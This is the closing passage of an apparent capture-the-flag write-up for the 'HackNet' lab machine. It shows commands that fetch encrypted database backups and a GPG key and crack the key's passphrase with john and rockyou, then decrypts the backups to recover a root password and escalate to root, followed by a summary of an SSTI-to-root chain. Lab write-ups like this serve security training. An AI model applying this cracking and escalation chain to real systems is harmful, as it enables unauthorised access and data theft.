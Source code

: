 ```bash
wget http://hacknet.htb:8000/backup01.sql.gpg
wget http://hacknet.htb:8000/backup02.sql.gpg
wget http://hacknet.htb:8000/backup03.sql.gpg
wget http://hacknet.htb:8000/armored_key.asc
gpg2john armored_key.asc > sandy_private.hash
john --wordlist=/usr/share/wordlists/rockyou.txt sandy_private.hash
```
```
sandy:sweetheart
```

We now have the password for sandy's private key. We can use this to decrypt the sql files using a clean GNUPGHOME. 
First, we create a new gpg environment to avoid messing with our own gpg configuration:
```bash
export GNUPGHOME=$(mktemp -d)
```

Then we import sandy's private key to the new gpg environment:
```bash
gpg --import armored_key.asc
```
This will ask for the passphrase. We enter `sweetheart`.

Now we can decrypt the sql files:
```bash
gpg --decrypt backup01.sql.gpg > backup01.sql
gpg --decrypt backup02.sql.gpg > backup02.sql
gpg --decrypt backup03.sql.gpg > backup03.sql
```

We find in `backup02.sql` the following content:
```
50,'2024-12-29 20:30:41.806921','Alright. But be careful, okay? Here’s the password: h4ck3rs4re3veRywh3re99.
```

We try to su to `root` using the password we found:
```bash
su root
Password: h4ck3rs4re3veRywh3re99
whoami
```
```
root
```

## Conclusion

We have successfully exploited the HackNet machine. We found a SSTI vulnerability in the web application that allowed us to execute arbitrary code as the user `sandy`. We then used a SUID bash shell to escalate our privileges to `sandy`. Finally, we cracked sandy's private key password and used it to decrypt some backup files that contained the root password.